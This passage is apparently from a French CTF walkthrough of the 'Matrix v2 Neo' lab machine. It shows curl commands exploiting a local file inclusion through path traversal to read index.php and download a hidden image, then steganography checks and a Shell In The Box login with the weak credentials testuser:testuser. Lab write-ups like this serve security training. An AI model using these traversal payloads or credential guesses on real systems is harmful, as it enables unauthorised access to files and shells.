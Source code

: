 Cette LFI nous donne l'occasion de consulter non seulement le code source de la page ```index.php``` elle-même...

```console
root@blinils:~# curl --insecure https://192.168.56.101:12322/file_view.php --data "file=../../../../../var/www/index.php"
<!DOCTYPE html>
<html lang="en" >
<head>
<meta charset="UTF-8">
<title>Welcome in Matrix v2 Neo</title>
--snip--
<!--img src="h1dd3n.jpg"-->
<br/><br/><br/><br/><br/><br/><br/><br/><br/><br/>
<div class="container"> <div class="text"></div> </div>
--snip--
</html>
```

Bizarre, ce fichier ```h1dd3n.jpg``` n'apparaît pas dans le code source des pages Web visitées.

Est-ce l'élément permettant de passer à la suite du CTF ?

```console
root@blinils:~# curl --insecure https://192.168.56.101:12322/file_view.php --data "file=../../../../../var/www/h1dd3n.jpg" --output h1dd3n.jpg
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 25102    0 25052  100    50  2224k   4545 --:--:-- --:--:-- --:--:-- 2451k
```

## Stéganographie (partie 1/2) et accès à Shell In The Box

Peut-être est-ce une épreuve de [stéganographie](https://en.wikipedia.org/wiki/Steganography) ? Le nom du fichier signifie-t-il qu'un message caché se trouve dans cette image ? Malheureusement, aucun élément probant dans les métadonnées de l'image ([__exiftool__](https://exiftool.org/)), aucun message caché dans les bits de poids faible de l'image ([__StegSolve__](http://www.caesum.com/handbook/stego.htm), [__zsteg__](https://github.com/zed-0xff/zsteg)), et rien dans le fichier lui-même ([_strings_](https://en.wikipedia.org/wiki/Strings_(Unix)), [_grep_](https://en.wikipedia.org/wiki/Grep)). Tel un [fusil de Tchekhov](https://en.wikipedia.org/wiki/Chekhov%27s_gun), ce fichier image sera certainement utile par la suite. Pour l'heure, c'est au tour de l'émulateur de terminal SSH d'être testé (port 12320) et... oh surprise, le couple d'identifiants ```testuser:testuser``` fonctionne aussitôt !

```console
Matrix_2 login: testuser
Password: [testuser]
Last login: Sat Dec  8 08:46:10 UTC 2018 from 127.0.0.1 on pts/0
Welcome to Matrix_2, TurnKey GNU/Linux 15.1 / TurnKey 9.6 Stretch

--snip--

Linux Matrix_2 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

===================================================================================

No directory, logging in with HOME=/
$
```
